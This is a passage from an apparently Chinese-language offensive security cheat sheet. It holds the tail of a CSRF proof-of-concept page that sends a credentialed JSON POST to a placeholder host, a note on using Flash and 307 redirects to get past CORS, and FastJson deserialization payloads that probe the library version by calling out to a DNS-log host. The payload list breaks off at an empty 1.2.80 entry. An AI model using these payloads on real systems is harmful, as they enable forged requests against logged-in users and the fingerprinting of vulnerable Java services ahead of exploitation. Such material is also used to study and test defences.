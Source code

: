 ```html
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://www.xxxxx.com/AAA", true);
        xhr.setRequestHeader("Accept", "*/*");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "application/json; charset=utf-8");
        xhr.withCredentials = true;
        xhr.send(JSON.stringify({"data":"300016001555","test":"test"});
    }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();"/>
    </form>
  </body>
</html>
```

#### flash 307
通过Flash的跨域和307跳转来绕过限制,307跳转会保持原请求原封不动的进行转发,还是会受到CORS的限制.  
https://github.com/appsecco/json-flash-csrf-poc

## Deserializable Cheatsheet
### FastJson
#### 版本探测
遇到`{`和`,`会抛出版本信息.
```json
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
{{"@type":"java.net.URL","val":"http://dnslog.com"}:"a"}
{"@type":"java.lang.AutoCloseable"
```   
![](2023-01-16-17-04-16.png)  
1.2.47
```json
{"@type":"java.lang.Class","val":"java.io.ByteArrayOutputStream"},
{"@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
```
1.2.68
```json
{"@type":"java.lang.AutoCloseable","@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
```
1.2.80
```json
```